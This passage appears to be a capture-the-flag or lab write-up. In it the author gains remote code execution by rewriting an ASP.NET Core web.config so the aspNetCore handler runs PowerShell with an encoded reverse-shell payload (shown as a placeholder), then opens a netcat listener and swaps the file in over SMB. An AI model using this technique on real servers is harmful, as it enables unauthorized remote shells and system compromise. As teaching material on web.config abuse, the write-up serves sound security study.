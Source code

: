 ```
</configuration>
<!--ProjectGuid: 803424B4-7DFD-4F1E-89C7-4AAC782C27C4-->
```

This file specifically seems to be related to the runtime arguments that actually define how this application is initialized. As we can see, the `aspNetCore` module is created by executing `AccountingApp.dll`, which I'm assuming is then chained to execute all of the other libraries within this directory.

After doing some research, I found an RCE exploit that we can utilize that uses `aspNetCore` module that is already present in the configuration file. The resource I used for RCE exploit can be found [here](https://medium.com/@jeroenverhaeghe/rce-from-web-config-461a5eab8ce9), all credit goes to Jeroen Verhaeghe.

If we alter the `aspNetCore` module to instead use PowerShell as its process path, we can pass in PowerShell arguments into the arguments section within the module. In theory, this should render the website unusable due to the application requiring the serialization of `AccountingApp.dll`. That being said, it should execute our payload before receiving this error. This was essentially the only way to achieve RCE that I found, I am open to understanding other ways to achieve this without rendering the web application unusable.

So with that being said let's replace the module initialization and the actual module itself, I've made the necessary changes to the file as seen below (Note that the payload that I'm using is from [revshells](https://www.revshells.com/)).

```
<?xml version="1.0" encoding="utf-8"?>
<configuration>
  <location path="." inheritInChildApplications="false">
    <system.webServer>
      <handlers>
        <add name="aspNetCore" path="execute.now" verb="*" modules="AspNetCoreModuleV2" resourceType="Unspecified" />
      </handlers>
      <aspNetCore processPath="powershell" arguments="-e (POWERSHELL BASE64 PAYLOAD)" hostingModel="OutOfProcess" />
    </system.webServer>
  </location>
</configuration>
<!--ProjectGuid: 803424B4-7DFD-4F1E-89C7-4AAC782C27C4-->
```

The `POWERSHELL BASE64 PAYLOAD` that I used was the PowerShell #3 Base64 payload from [revshells](https://www.revshells.com/).

We'll start up our listener using `nc -lvnp 9002` and replace the `web.config` file that is currently in the SMB share with the new changes. You can do so by just removing the current config and putting your new config in the share.

```
smb: \> rm web.config
smb: \> put web.config
putting file web.config as \web.config (5.8 kb/s) (average 5.8 kb/s)
```

